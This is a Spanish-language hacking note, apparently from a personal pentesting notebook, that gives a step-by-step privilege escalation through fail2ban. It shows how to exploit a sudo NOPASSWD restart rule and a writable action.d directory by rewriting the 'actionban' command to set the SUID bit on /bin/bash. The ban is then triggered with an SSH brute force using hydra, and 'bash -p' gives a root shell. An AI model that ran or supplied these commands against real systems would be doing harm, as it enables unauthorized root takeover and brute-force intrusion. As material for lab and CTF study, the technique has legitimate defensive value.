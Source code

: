 ```yaml
---
icon: ban
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# File2ban Privilege Escalation

URL = https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49

o

URL = https://hackmd.io/@tahaafarooq/privilege-escalation-fail2ban

Se puede hacer de las 2 manera como proporcione en las 2 `URL's` por lo que se podria hacer lo siguiente...

```shell
id
```

Si con esto vemos que estamos en el grupo llamado `Security` y al hacer `sudo -l` podemos ejecutar como `root` el siguiente comando...

```
(root) NOPASSWD: /etc/init.d/fail2ban restart
```

Lo que podremos es reiniciar el servicio de `fail2ban` que su funcion es que cuando detecta que se esta utilizando multiples intentos de `login` o fuerza bruta te banean y en la linea de la configuracion del programa cuando pasa eso hay un comando en concreto estipulado para cuando pasa eso que es el cual cambiaremos para aprovecharlo...

```shell
find /etc -writable -ls 2>/dev/null
```

Haciendo eso veremos que podemos escribir y editar cosas dentro del siguiente directorio...

```
drwxrwx---   2 root    security    /etc/fail2ban/action.d
```

Dentro de este directorio se encuentra un archivo llamado `iptables-multiport.conf` que es el que controla cuando se banea a una persona que comando se ejecuta, por lo que lo editaremos de la siguiente manera...

```shell
mv /etc/fail2ban/action.d/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.bak
```

```shell
cp /etc/fail2ban/action.d/iptables-multiport.bak /etc/fail2ban/action.d/iptables-multiport.conf
```

Y con esto podremos editarlo ya que anteriormente esta con permisos de `root` y no nos dejaba editarlo hacemos este `Bypass` moviendolo con otra extension, por lo que ya estara en nuestro grupo y podremos editarlo, despues lo copiamos para que se quede como estaba asi pudiendo editarlo y que lo detecte el programa cuando se ejecute...

```shell
nano /etc/fail2ban/action.d/iptables-multiport.conf

#Dentro del nano donde pone 'actionban = ' y el contendio del comando, lo cambiaremos por una inyeccion de coidigo malicioso que nos permita ser root
actionban = chmod u+s /bin/bash

^X
<Y or S>
<ENTER>
```

Con esto los cambios se habrian guardado y con esto hacemos que cuando nos baneen se ejecute ese `chmod`, por lo que haremos lo siguiente...

```shell
hydra -l <USERNAME> -P <WORDLIST> ssh://<IP>/ -t 64
```

Echo esto nos banearan y ya tendremos el comando ejecutado volviendo a la maquina victima...

Por lo que haremos...

```shell
bash -p
```

Y ya seriamos `root`...
